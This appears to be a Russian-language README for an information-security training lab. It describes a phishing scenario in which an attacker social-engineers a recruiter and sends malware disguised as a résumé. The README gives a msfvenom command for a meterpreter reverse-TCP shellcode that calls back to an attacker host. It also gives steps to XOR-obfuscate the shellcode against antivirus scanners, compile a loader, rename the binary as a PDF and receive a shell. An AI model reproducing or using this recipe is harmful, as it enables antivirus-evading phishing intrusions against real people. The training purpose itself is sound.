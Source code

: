 # cyberpolygon with virus for information security training

### Для работы стенда необходимо ввести след команды
![Image alt](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-27-14.png)

### Сценарий

## Что делает хакер

Хакер ищет себе жертву, которой в дальнейшем отправит вредоносный файл. С помощью социальной инженерии злоумышленник находит одну компанию на hh и звонит рекрутеру. Общаясь он рассказывает, как заинтересован в работе. После их разговора, хакер обещает прислать денису на почту резюме. 
На деле же вместо резюме лежит заархивированный вредоносный файл.

## что делает hr

Кадровик Денис заходит на почту и видит примерно следующее сообщение, которое оставил ему его телефонный собеседник: 

“Здравствуйте еще раз! я заинтересован в вашей работе. Вот мое резюме” 
Его впечатлил телефонный разговор и он бежит побыстрее посмотреть его резюме.

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-36-50.png)

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-09.png)

Тем временем у атакующего включен meterpreter listener и он получает оболочку , тем самым имея возможность загрузить любые файлы и выполнить любой код. 

Чем он и пользуется, закидывая hr-ру файлик hacked.txt , в котором сообщается, что тот взломан

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-19.png)

Так выглядят Отработавшие скрипты HR:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-34.png)


и hacker:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-41-47.png)

## Описание созданного вируса

Вирус состоит из 2-х файлов : hack.c , encoder_beautiful.c 

Создадим переменную массива беззнаковых символов с именем buf, которая содержит наш шелл-код вывод в формате C из msfvenom. Это в будущем поможет нам получить оболочку и выполнять любые команды на компьютере жертвы.

Чтобы избежать обнаружения сканерами, мы замаскируем исходную строку шелл-кода. Мы можем сделать это, создав программу-кодировщик (encoder_beautiful) для выполнения операции XOR с нашей полезной нагрузкой meterpreter.

Затем мы возьмем выходные данные нашего кодировщика и заменим полезную нагрузку нашей исходной оболочки C на запутанную версию, которую мы создали. И добавим декодер XOR в нашу исходную программу на C, чтобы деобфусцировать полезную нагрузку в памяти перед ее выполнением.

#### Порядок команд для получения готового вируса

Сгенерируем 64-битный незакодированный шеллкод с помощью msfvenom с типом вывода «c» на Kali след. командой : 
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c 
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-42-24.png)

Скопируем char buf[] и вставим это в программу encoder_beautiful.c
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-04.png)

Скомпилируем командой gcc encoder_beautiful.c -o encoder_beautiful.elf

запустим ./encoder_beautiful.elf - теперь это надо скопировать
![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-17.png)

Затем мы вставим char buf[] в программу на C, которая будет действовать как оболочка для загрузки и запустит шеллкод.

Скомпилировать след. командой файл hack.c


![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-40.png)


Получен готовый вирус, который необходимо закинуть жертве. Попробуем переименовать его вместо hack.elf в resume_for_hr.pdf

Настроим прослушиватель:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-52-50.png)

Запустим:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-00.png)


И получаем оболочку:

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-08.png)


## Результаты сканирования антивирусных систем

Анализ сканирования касперским нашего вредоносного файла hack.elf показал следующий результат :

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-26.png)


Анализ сканирования касперским нашего вредоносного файла resume.pdf показал следующий результат :

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-35.png)


Результат сканирования написанного вируса на virustotal :

![Screenshot](https://github.com/diurs/Cyberpolygon/blob/main/Screenshot%20from%202022-07-05%2018-53-55.png)


